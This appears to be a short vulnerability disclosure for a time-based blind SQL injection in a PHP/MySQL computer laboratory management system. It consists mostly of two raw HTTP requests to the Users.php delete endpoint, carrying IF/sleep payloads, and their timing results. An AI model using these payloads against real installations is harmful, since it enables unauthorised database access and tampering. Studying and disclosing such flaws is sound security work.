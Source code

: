 # Computer Laboratory Management System using PHP and MySQL - SQL injection

By variable override in classes/Users.php, it is possible to control SQL statements. Therefore, directly construct the payload.

```http
POST /php-lms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.3.182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=me1t3n4nemvaf39r7udbqlal8v; XDEBUG_SESSION=12980
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

id=(IF(1=1,sleep(2),7))
```

Response time: 4156 milliseconds.

![](image/image_Umq56BF3oE.png)

Constructing a payload that adds invalid data.

```http
POST /php-lms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.3.182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=me1t3n4nemvaf39r7udbqlal8v; XDEBUG_SESSION=12980
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

id=(IF(1=2,sleep(2),7))
```

The time is significantly shortened, with a time of 338.

![](image/image_qZoMGisfrC.png)
